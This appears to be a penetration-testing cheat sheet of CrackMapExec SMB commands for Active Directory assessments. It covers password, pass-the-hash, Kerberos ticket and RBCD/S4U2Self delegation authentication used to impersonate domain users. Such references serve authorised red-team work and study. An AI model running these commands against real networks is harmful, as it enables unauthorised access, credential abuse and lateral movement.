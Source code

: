 ```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## Local auth with hash
#assessment/AD #attack_type/Authentication #port/445 #port/139 #protocol/smb #access/Local_user

Authenticate via a local account using the hash on the remote target.

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## Kerberos auth
#assessment/AD #attack_type/Authentication #port/445 #port/139 #protocol/smb #access/Domain_user

Authenticate via Kerberos on the remote target.

```bash
cme smb <ip> -u <user> -p <password> -k
```

## Kerberos TGT auth
#assessment/AD #attack_type/Authentication #port/445 #port/139 #protocol/smb #access/Domain_user

Authenticate via a Kerberos TGT on the remote target.

Previously import ticket : 
export KRB5CCNAME=ticket.ccache

```bash
cme smb <ip> -u <user> -k --use-kcache
```

## Delegated auth (RBCD)
#assessment/AD #attack_type/Authentication #port/445 #port/139 #protocol/smb #access/Domain_user

Execute RBCD and impersonate a user through msDS-AllowedToActOnBehalfOfOtherIdentity.

⚠️ Requirement : msDS-AllowedToActOnBehalfOfOtherIdentity attribute set to a controlled domain account

```bash
cme smb <ip> -u <user> -p <password> --delegate <impersonated_user>
```

## Delegated auth (S4U2Self)
#assessment/AD #attack_type/Authentication #port/445 #port/139 #protocol/smb #access/Domain_user

Execute S4U2Self and impersonate a user through msDS-AllowedToActOnBehalfOfOtherIdentity.

⚠️ Requirement : msDS-AllowedToActOnBehalfOfOtherIdentity attribute set to a controlled domain account

```bash
cme smb <ip> -u <computer$> -H <hash> --delegate <impersonated_user>
```
